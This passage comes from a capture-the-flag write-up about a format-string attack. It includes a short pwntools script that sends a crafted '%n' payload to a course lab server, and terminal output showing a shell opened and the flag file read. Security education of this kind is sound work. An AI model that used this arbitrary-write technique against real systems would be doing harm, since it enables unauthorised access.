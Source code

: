 The final detail needed is to reference correctly the address to which the `%n` will send the value, we need to add a `$1` to the `%n` for it to reference the first 4 bytes sent. This way, the value from %n will be saved to the key variable.

With all the information gathered, we can make our payload:

```python
from pwn import *
(...)
p.recvuntil(b"got:")
p.sendline(b"\x34\xc0\x04\x08" + b"%48875x" +b"%1$n")
p.interactive()
```

And we can run the script:

```bash
seed@c92700e7a690:~$ python3 exploit_example.py
[+] Opening connection to ctf-fsi.fe.up.pt on port 4005: Done
[*] Switching to interactive mode
You gave me this:4\xc0
(...)
              804c034Backdoor activated
$ ls
flag.txt
run
$ cat flag.txt
flag{228e12f057040402cc928958a4b823d8}
```

![ctf62_stack.png](../images/ctf62_stack.png)

